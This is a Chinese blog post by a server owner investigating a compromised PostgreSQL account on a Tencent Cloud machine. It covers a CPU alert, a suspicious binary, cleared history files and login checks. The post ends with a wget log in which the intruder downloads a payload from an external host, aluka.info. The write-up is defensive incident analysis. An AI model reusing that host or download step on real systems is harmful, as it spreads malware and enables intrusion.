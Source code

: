```yaml
---
title: 记一次 postgresql 斯嘉丽约翰逊攻击的排查
date: 2018-08-11 22:49:52
tags: "Linux"
comment: true
weight: 5
draft: false
categories: ["Security", "Linux", "Code"]
tags: ["Security", "Linux", "Postgresql"]
lightgallery: true
thumbnail: http://image.knowing.asia/53d15464-67d2-4225-b98e-91bbdd132af7/72d33b84950ef1a25d3a74f60ab83873.png
---
```


### 背景

今天下午连续收到了腾讯云 CPU overload 报警

![CPU Usage](http://7xse6j.com1.z0.glb.clouddn.com/CPU%20Overload.png)

登服务器一看, 有个 postgres 账户跑的进程把 CPU 占满了，进程名特别奇怪。

![Htop info](http://7xse6j.com1.z0.glb.clouddn.com/htopinfo.png)




### 排查

于是根据 pid 到 `/proc/20619/stack` 下看到有一长串的 `[<ffffffff81841ff2>] entry_SYSCALL_64_fastpath+0x16/0x71` ，似乎短时间里发起大量的系统调用(prepare)并且还在不断增长。

接着 `cat /proc/20619/cmdline` 发现执行的是 `/var/lib/postgresql/9.5/main/Ac2p018-0` 这个坏家伙，查看发现这是个二进制文件，看不出问题，猜测和 postgresql 数据库有关，看起来不像是什么数据库维护脚本，第一反应是被数据库攻击了，于是查看 `/var/lib/postgresql/.bash_history` 和 `/var/lib/postgresql/.psql_history` 发现一条记录都没，显然是被手动清空了，更加确定是被 hack 了。担心已经被拿到 root 权限了，于是通过 `lastlog` 和 `last` 查看登录状态，所幸之前的 root 账户的 ip 都是我自己的，只有 postgres 这个账户看起来异常。

接着到 `/var/lib/postgresql/9.5/main/pg_log` 下查看数据库日志，抓到了几个奇怪的地方：

1. 有一个长连接持续从 `http://aluka.info/x6` 下载文件，

```
5144 --2018-08-11 15:47:30--  http://aluka.info/x6
5145 Resolving aluka.info (aluka.info)... 103.27.110.206
5146 Connecting to aluka.info (aluka.info)|103.27.110.206|:80... connected.
5147 HTTP request sent, awaiting response... 200 OK
5148 Length: 2758655 (2.6M)
5149 Saving to: ‘xmm’
5150
5151      0K .......... .......... .......... .......... ..........  1%  399K 7s
5152     50K .......... .......... .......... .......... ..........  3%  601K 5s
5153    100K .......... .......... .......... .......... ..........  5%  592K 5s
5154    150K .......... .......... .......... .......... ..........  7% 1.69M 4s
5155    200K .......... .......... .......... .......... ..........  9%  754K 4s
5156    250K .......... .......... .......... .......... .......... 11%  422K 4s
5157    300K .......... .......... .......... .......... .......... 12%  405K 4s
5158    350K .......... .......... .......... .......... .......... 14%  179K 5s
5159    400K .......... .......... .......... .......... .......... 16% 81.1K 8s
5160    450K .......... .......... .......... .......... .......... 18% 35.1K 13s
5161    500K .......... .......... .......... .......... .......... 20%  117K 13s
5162    550K .......... .......... .......... .......... .......... 22% 86.3K 14s
5163    600K .......... .......... .......... .......... .......... 24%  122K 14s
5164    650K .......... .......... .......... .......... .......... 25%  169K 13s
5165    700K .......... .......... .......... .......... .......... 27%  171K 13s
5166    750K .......... .......... .......... .......... .......... 29% 93.8K 13s
```